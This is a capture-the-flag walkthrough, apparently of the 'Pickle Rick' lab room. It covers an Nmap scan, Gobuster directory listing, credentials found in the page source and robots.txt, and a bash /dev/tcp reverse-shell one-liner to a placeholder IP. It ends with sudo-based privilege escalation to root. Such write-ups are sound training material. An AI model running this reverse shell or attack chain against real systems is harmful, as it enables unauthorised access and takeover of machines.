

**Nmap**

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 15:29 IST
Nmap scan report for 10.10.40.187
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b0:c2:fe:fd:fe:b9:2d:88:ce:db:a5:b5:93:82:ec:e1 (RSA)
|   256 76:7d:e3:6c:7e:c3:75:ef:37:2d:d8:cc:e1:9f:7c:ba (ECDSA)
|_  256 a2:c1:12:92:b5:3d:0a:de:5c:a1:98:c0:be:fe:4a:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Open Ports**

- 22 ssh
- 80 http

Starting with **port 80**


Looking the source page found the **user name** `R1ckRul3s`


Using **Gobuster** to find directory

```bash
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.40.187/assets/]
/robots.txt           (Status: 200) [Size: 17]                                   
/server-status        (Status: 403) [Size: 300]                                  
/clue.txt             (Status: 200) [Size: 54] 
```

**/robots.txt**   `Wubbalubbadubdub`


**/login.php**       credentials `R1ckRul3s:Wubbalubbadubdub`


Used bash one liner to gain the reverse shell.

```bash
bash -c 'exec bash -i &>/dev/tcp/<ip>/1234 <&1'
```


- Found first flag in **/var/www/html**
- Found Second flag in **/home/rick** the file has a space between so use `second\ ingredients`

Now for the privilege esclation 

- sudo -l
- sudo su



The third flage is in **/root**